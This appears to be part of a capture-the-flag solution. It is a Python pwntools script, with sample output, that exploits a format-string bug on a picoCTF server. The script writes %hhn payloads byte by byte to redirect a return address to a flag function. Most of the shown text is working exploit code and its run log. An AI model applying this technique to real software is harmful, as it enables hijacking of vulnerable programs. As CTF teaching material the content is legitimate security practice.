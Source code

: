```py3
	assert total % 8 == 0

	# First 5 arguments are from registers instead of stack, plus 1 because 1-indexed
	# Plus one for each 8 characters we've written so far
	num = 6 + total // 8

	# Force format specifier to be 7 chars
	fmt = f'%{num}$hhn' if num >= 10 else f'%0{num}$hhn'

	payload = payload + fmt + padding

	print(b'Writing ' + str(byte).encode() + b' to address ' +
	   hex(addr).encode() + b': ' + payload.encode())
	# Put format spec plus address we want to write
	writeline(payload.encode() + p64(addr))

# Write one byte at a time using hhn
for i in range(3):
 	# Write lowest byte of address
	# Plus i, not minus i, because little-endian
	write_byte(flag_addr & 0xff, ret_addr_loc + i)
	# Shift address one byte to the right
	flag_addr >>= 8

writeline(b'exit')

# ===

f.close()
conn.interactive()
```

Example output:
```
[+] Opening connection to shape-facility.picoctf.net on port 51442: Done
Return address: 0x59f1d72f4413
Flag func address: 0x59f1d72f4269
Return address location: 0x7ffc91683618
b'Writing 105 to address 0x7ffc91683618: %105c%08$hhn++++'
b'Writing 66 to address 0x7ffc91683619: %66c%08$hhn+++++'
b'Writing 47 to address 0x7ffc9168361a: %47c%08$hhn+++++'
[*] Switching to interactive mode
You heard in the distance:                                                                                                         \xc0++++\x186h\You heard in the distance:                                                                  \xc0+++++\x196h\x91\xfcYou heard in the distance:                                               \xc0+++++\x1a6h\x91\xfcThe Valley Disappears
Congrats! Here is your flag: picoctf{<FLAG>}
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to shape-facility.picoctf.net port 51442
```
